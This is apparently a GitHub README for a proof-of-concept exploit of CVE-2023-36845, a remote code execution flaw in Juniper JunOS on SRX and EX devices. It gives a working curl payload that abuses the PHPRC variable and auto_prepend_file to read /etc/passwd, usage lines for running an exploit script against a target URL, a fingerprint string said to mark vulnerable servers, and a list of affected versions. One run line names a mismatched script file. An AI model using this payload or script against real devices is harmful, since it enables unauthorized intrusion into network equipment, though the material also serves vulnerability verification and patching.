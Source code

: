 # POC | CVE-2023-36845 
# RCE in Juniper JunOS within SRX and EX Series, CVSS: 9.8

<img width="917" alt="Screenshot 2023-11-16 at 17 53 47" src="https://github.com/FerdiGul/POC/assets/17753652/b2e60b5d-3444-4a61-955f-24f4815562f4">

Related CVEs: CVE-2023-36844, CVE-2023-36845, CVE-2023-36846, CVE-2023-36847, and CVE-2023-36851                                             

Usage of ./exploit_CVE-2023-36845.py:

  -h help
  -u Target URL
    	python3 exploit_CVE-2023-36845.py -u http://example.com
     
# Vulnerability Details

Through skillful manipulation of a tailored request to configure the PHPRC variable, an attacker gains the ability to modify the PHP execution environment, facilitating the injection and execution of code.

To verify the vulnerability on your system, you can also use the code snippet below:
$ curl <Target_URL> -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'

In addition, based on my examinations so far, it is advisable to be particularly cautious with servers containing the character "#js2nr0px1R2" assigned to the variable "document.login.password.value" embedded in the web server script as well. So, in my observations, I have noticed that all instances I have examined with this characteristic are vulnerable for now.

Affected versions:<br />
All versions prior to 20.4R3-S9;<br />
21.1 version 21.1R1 and later versions;<br />
21.2 versions prior to 21.2R3-S7;<br />
21.3 versions prior to 21.3R3-S5;<br />
21.4 versions prior to 21.4R3-S5;<br />
22.1 versions prior to 22.1R3-S4;<br />
22.2 versions prior to 22.2R3-S2;<br />
22.3 versions prior to 22.3R2-S2, 22.3R3-S1;<br />
22.4 versions prior to 22.4R2-S1, 22.4R3;<br />
23.2 versions prior to 23.2R1-S1, 23.2R2 <br />

# Install Requirements:

$ pip install -r requirements.txt


# Run the exploit script:

$ python3 exploit_CVE-2023-36846.py -h

$ python3 exploit_CVE-2023-36845.py -u http://example.com
